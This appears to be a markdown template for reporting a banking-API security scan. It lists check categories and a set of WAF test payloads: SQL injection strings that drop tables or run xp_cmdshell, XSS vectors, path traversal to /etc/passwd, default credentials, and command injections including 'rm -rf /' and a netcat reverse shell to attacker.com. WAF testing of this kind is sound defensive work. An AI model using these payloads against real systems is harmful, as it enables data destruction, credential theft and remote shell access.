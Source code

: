 # 🔍 Comprehensive Security Check Breakdown Format

## 📊 **Standard Breakdown Structure for All Tests**

### **1. Overall Statistics**
- Total Security Checks Executed: [X]
- Security Categories Covered: [X]
- Attack Types Tested: [X]
- WAF Payloads Tested: [X]
- Scan Duration: [X seconds]

### **2. Detailed Check Categories**

#### 🔐 **Authentication & Authorization (5 Checks)**
1. Authentication Bypass Testing ✅
2. JWT Token Security Testing ✅
3. Session Management Testing ✅
4. Session Fixation Testing ✅
5. Privilege Escalation Testing ✅

#### 🛡️ **Injection Attacks (5 Checks)**
6. SQL Injection Testing ✅
7. Command Injection Testing ✅
8. Cross-Site Scripting (XSS) Testing ✅
9. XML External Entity (XXE) Testing ✅
10. Server-Side Request Forgery (SSRF) Testing ✅

#### 🏦 **Banking-Specific Security (9 Checks)**
11. Double Spending Protection ✅
12. Race Condition Testing ✅
13. BOLA (Broken Object Level Authorization) Testing ✅
14. Transaction Manipulation Testing ✅
15. KYC Bypass Testing ✅
16. Loan Abuse Testing ✅
17. Webhook Abuse Testing ✅
18. Discount Abuse Testing ✅
19. Micro Transaction Testing ✅

#### 🌐 **Web Security (5 Checks)**
20. Open Endpoint Detection ✅
21. Path Traversal Testing ✅
22. Open Redirect Testing ✅
23. Security Headers Analysis ✅
24. CORS Misconfiguration Testing ✅

#### ⚡ **Performance & Reliability (2 Checks)**
25. Rate Limiting Analysis ✅
26. Idempotency Testing ✅

#### 🔍 **Information Disclosure (2 Checks)**
27. Verbose Error Detection ✅
28. Metadata Leakage Detection ✅

#### 🔒 **Infrastructure Security (2 Checks)**
29. HTTPS Usage Verification ✅
30. Security Layer Detection ✅

#### 🛡️ **WAF Security Layer Testing (33 Payloads)**
**SQL Injection Payloads (11):**
- `'; DROP TABLE users;--`
- `1' OR '1' = '1'--`
- `'; DELETE FROM users;--`
- `'; DROP DATABASE;--`
- `' UNION SELECT password FROM users--`
- `'; EXEC xp_cmdshell('dir');--`
- `'; SHUTDOWN;--`
- `' OR 1=1--`
- `' UNION SELECT version(),database(),user()--`
- `admin'--`
- `' OR 'x'='x`

**XSS Payloads (5):**
- `<script>alert('xss')</script>`
- `<img src=x onerror=alert('xss')>`
- `javascript:alert('xss')`
- `<svg onload=alert('xss')>`
- `'><script>alert('xss')</script>`

**Command Injection Payloads (5):**
- `; ls -la`
- `| whoami`
- `& cat /etc/passwd`
- `; rm -rf /`
- `| nc -e /bin/sh attacker.com 4444`

**Path Traversal Payloads (4):**
- `../../../etc/passwd`
- `..\..\..\windows\win.ini`
- `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- `....//....//....//etc/passwd`

**Auth Bypass Payloads (4):**
- `admin:admin`
- `admin:password`
- `user:user`
- `' OR 1=1 LIMIT 1--`

**Banking Attack Payloads (4):**
- `{"amount": -1000, "to_account": "1234567890"}`
- `{"promo_code": "FIRST50", "user_id": "new_user_123...`
- `{"user_id": "admin", "role": "super_admin"}`
- `{"transaction_type": "transfer", "amount": 999999}`

### **3. Results Summary**
- Total Checks: [X]
- Security Categories: [X]
- Attack Types Protected: [X]
- WAF Payloads Blocked: [X/X] ([X]%)
- Security Score: [X]/100
- Critical Issues: [X]
- High Issues: [X]
- Medium Issues: [X]
- Low Issues: [X]

### **4. Key Findings**
1. **WAF Protection: [X]% Effective** - [X] malicious payloads blocked
2. **Critical Vulnerabilities: [X]** - [Description]
3. **Security Improvements Needed: [X]** - [Description]
4. **Comprehensive Coverage: [X]%** - All major attack vectors tested
5. **Performance: [X] seconds** - Fast and efficient scanning

---

## 🎯 **Usage Instructions**
This format will be used for ALL future security tests to provide:
- ✅ **Complete transparency** of what was tested
- ✅ **Detailed breakdown** of each security category
- ✅ **Specific payload information** for WAF testing
- ✅ **Clear results summary** with actionable insights
- ✅ **Consistent reporting** across all tests

## 📋 **Template Variables**
- [X] = Actual numbers from scan results
- ✅ = Passed/Completed checks
- ❌ = Failed/Issues found
- 🛡️ = Security blocks detected 